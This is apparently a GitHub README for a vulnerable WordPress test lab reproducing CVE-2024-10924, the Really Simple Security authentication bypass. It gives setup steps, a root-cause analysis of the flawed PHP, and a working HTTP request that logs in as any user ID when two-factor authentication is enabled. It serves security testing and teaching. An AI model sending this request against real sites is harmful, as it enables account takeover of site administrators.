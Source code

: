 # wordpress-really-simple-security-authn-bypass-vulnerable-application

This is a vulnerable application to test the exploit for the **Really Simple Security** < 9.1.2 authentication bypass (CVE-2024-10924).

## WARNING!

**This application contains serious security vulnerabilities. Run it at your own risk! It is recommended using a backed-up and sheltered environment (such as a VM with a recent snapshot and host-only networking). Do not upload this application to any Internet facing servers, as they will be compromised.**

***DISCLAIMER*: I do not take responsibility for the way in which any one uses this application. The only purpose of this application is to be a test scenario for the Really Simple Security < 9.1.2 authentication bypass (CVE-2024-10924) exploit and it should not be used maliciously. If your server is compromised via an installation of this application it is not my responsibility, it is the responsibility of the person(s) who uploaded and installed it.**

## Vulnerability info

* **CVE-ID**: CVE-2024-10924
* **Link**: [https://www.cve.org/CVERecord?id=CVE-2024-10924](https://www.cve.org/CVERecord?id=CVE-2024-10924)
* **Description**: This makes it possible for unauthenticated attackers to log in as any existing user on the site, such as an administrator, when the "*Two-Factor Authentication*" setting is enabled (disabled by default).
* **Fix:** [https://plugins.trac.wordpress.org/changeset/3188431/really-simple-ssl](https://plugins.trac.wordpress.org/changeset/3188431/really-simple-ssl)
* **Wordfence bulletin:** [https://www.wordfence.com/threat-intel/vulnerabilities/detail/really-simple-security-free-pro-and-pro-multisite-900-9111-authentication-bypass](https://www.wordfence.com/threat-intel/vulnerabilities/detail/really-simple-security-free-pro-and-pro-multisite-900-9111-authentication-bypass)

## Usage

Here the steps to **setup** the environment:
1. Launch `./up.sh` to start composition.
2. Complete the installation of WordPress here: [https://localhost:1337/wp-admin/install.php](http://localhost:1337/wp-admin/install.php).
3. Login into WordPress.
4. Go to "*Plugins*": [https://localhost:1337/wp-admin/plugins.php](http://localhost:1337/wp-admin/plugins.php).
5. Click on "*Activate*" under the "*Really Simple Security*" plugin. **DO NOT UPDATE IT**, since we need the vulnerable version.
6. Click on "*Cancel*" on the popup referring to SSL activation.
7. Go to "*Settings*" > "*Login Protection*" > "*Two-Factor Authentication*" and, in the "*Two-Factor Authentication*" section, enable "*Enable Two-Factor Authentication*".
8. Click the "*Save*" button.

The container will be called `vuln-wp-really-simple-security`.

To **teardown** the environment use `./down.sh` command or `./down_and_delete.sh` command to also remove images and the volume of the database.

## Root cause

Having a look at the [fix](https://github.com/Really-Simple-Plugins/really-simple-ssl/commit/33b6bae321f437f5d822e7d7e03103915530c86c#diff-826cac126398ce784274642e7be5f5214f94d72e6ae8ee07303b5d485587fdce), it's possible to understand that in the vulnerable version an error object was returned, in case of invalid login nonce, by the `check_login_and_get_user()` function, without aborting the whole operation.

```php
private function check_login_and_get_user( int $user_id, string $login_nonce ) {
    if ( ! Rsssl_Two_Fa_Authentication::verify_login_nonce( $user_id, $login_nonce ) ) {
        return new WP_REST_Response( array( 'error' => 'Invalid login nonce' ), 403 );
    }

    /**
     * Get the user by the user ID.
     *
     * @var WP_User $user
     */
    $user = get_user_by( 'id', $user_id );
    return $user;
}
```

In the caller, by the way, no check was performed on the output of the `check_login_and_get_user()` function ([line 277](https://github.com/Really-Simple-Plugins/really-simple-ssl/blob/eb1ac89afa36661bfbb1992edc930fe809a9c88d/security/wordpress/two-fa/class-rsssl-two-factor-on-board-api.php#L277)), but simply going further with the `authenticate_and_redirect()` function ([line 278](https://github.com/Really-Simple-Plugins/really-simple-ssl/blob/eb1ac89afa36661bfbb1992edc930fe809a9c88d/security/wordpress/two-fa/class-rsssl-two-factor-on-board-api.php#L278)) using the same value received from input for the user ID.

```php
public function skip_onboarding( WP_REST_Request $request ): WP_REST_Response {
	$parameters = new Rsssl_Request_Parameters( $request );
	// As a double we check the user_id with the login nonce.
	$user = $this->check_login_and_get_user( (int)$parameters->user_id, $parameters->login_nonce );
	return $this->authenticate_and_redirect( $parameters->user_id, $parameters->redirect_to );
}
```

## Exploit

To exploit the vulnerability, a request like the following is sufficient.

```http
POST /?rest_route=/reallysimplessl/v1/two_fa/skip_onboarding HTTP/1.1
Host: localhost:1337
Content-Type: application/json
Content-Length: 88
Connection: keep-alive

{
    "user_id": 1,
    "login_nonce": "133333337",
    "redirect_to": "/wp-admin/"
}
```

Then setting accordingly the returned session cookies in the browser.

## Authors

* **Antonio Francesco Sardella** - *implementation* - [m3ssap0](https://github.com/m3ssap0)

## License

This project is licensed under the Unlicense - see the **LICENSE** file for details.

## Acknowledgments

* [**István Márton**](https://www.wordfence.com/threat-intel/vulnerabilities/detail/really-simple-security-free-pro-and-pro-multisite-900-9111-authentication-bypass), the security researcher who discovered the vulnerability.
